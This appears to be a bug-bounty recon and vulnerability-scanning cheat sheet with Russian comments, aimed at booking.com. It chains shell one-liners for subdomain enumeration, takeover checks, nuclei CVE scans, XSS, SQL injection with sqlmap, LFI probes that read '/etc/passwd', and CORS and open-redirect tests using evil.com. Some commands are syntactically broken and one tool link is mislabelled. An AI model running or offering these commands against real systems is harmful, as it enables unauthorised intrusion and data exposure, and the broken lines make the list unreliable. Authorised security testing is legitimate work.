 🐛💵
* echo booking.com > target.txt
# найдет субдомены tool [subfinder](https://github.com/projectdiscovery/subfinder)
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые  tool [httpx](https://github.com/projectdiscovery/httpx)
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов tool [httpx](https://github.com/tomnomnom/waybackurls)
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
# template [fuzzing-templates](https://github.com/projectdiscovery/fuzzing-templates) 
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln template [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss tool [dalfox](https://github.com/hahwul/dalfox)
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
* dalfox file xss.txt  | tee XSSvulnerable.txt
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
# проверяет CORS 
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli tool [sqliFinder](https://github.com/americo/sqlifinder)
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com

